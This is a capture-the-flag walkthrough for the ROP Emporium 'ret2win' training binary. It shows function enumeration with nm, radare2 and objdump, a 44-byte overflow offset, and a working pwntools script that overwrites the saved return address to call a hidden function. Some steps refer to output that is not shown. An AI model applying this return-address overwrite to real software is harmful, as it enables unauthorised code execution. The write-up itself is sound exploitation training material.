



# ret2win

Link: https://ropemporium.com/challenge/ret2win.html

Goal: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*

--------------------------

List functions with:

```
nm ret2win | grep 't'
```



Or with radare:

```
r2 ret2win
aaaa
afl
```


Then we can disassembly this function using again radare:

```
r2 ret2win
aaaa
s sym.ret2win
pdf
```



We can disassembly the main function too:


I will open GDB with GEF script:

```
gdb -q ./ret2win
```

Using Python we create characters to test when it crashes:


With 45 we overwrite only 1 byte, so the offset is 44:


We can find the function address with:

```
objdump -D ret2win | grep ret2win
```


This address can be found also using gdb (*info functions*).



The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```
The result:


